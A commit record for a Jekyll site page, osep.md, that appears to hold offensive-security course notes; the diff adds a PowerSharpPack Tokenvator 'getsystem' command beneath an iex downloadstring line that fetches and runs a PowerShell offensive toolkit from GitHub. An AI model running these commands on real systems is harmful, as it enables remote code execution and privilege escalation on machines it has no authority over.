

Before and after one commit to wez3/wez3.github.io, a Jekyll site: the page built from osep.md, in a window 1280 px wide and 900 px high, scrolled down 21360 px. Shown: the top 895 px of the window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update osep.md

````diff
--- a/osep.md
+++ b/osep.md
@@ -972,4 +972,5 @@ swaks --to w@domain.com --server 192.168.1.1 --body "Hello" --header "Subject: I
 PowerSharpPack
 ```
 iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
+PowerSharpPack -Tokenvator -Command "getsystem powershell.exe"
 ```
````
